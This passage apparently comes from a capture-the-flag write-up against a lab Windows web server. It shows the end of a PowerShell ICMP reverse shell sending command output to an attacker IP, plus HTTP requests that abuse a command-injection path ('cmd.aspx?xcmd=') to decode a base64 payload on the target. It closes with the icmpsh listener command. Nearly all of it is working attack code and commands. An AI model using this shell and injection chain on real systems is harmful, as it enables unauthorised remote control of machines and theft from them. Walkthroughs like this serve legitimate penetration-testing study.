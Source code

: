 ```
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0
            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
Invoke-PowerShellIcmp -IPAddress 10.10.16.185
```

Do this in the target machine to create base64 decoded file:

```http
10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell $file=Get-Content C:\Temp\reverse.ps1; $decode=[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file)); $decode > C:\Temp\pwned.ps1
```

We can verify that file was successfully created:

```http
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type%20C:\Temp\pwned.ps1
```

Listen on your Kali host (you may want another icmpsh that's not on python [https://github.com/bdamele/icmpsh](https://github.com/bdamele/icmpsh)):

```
❯ sudo python icmpsh_m.py 10.10.16.185 10.10.10.57
```
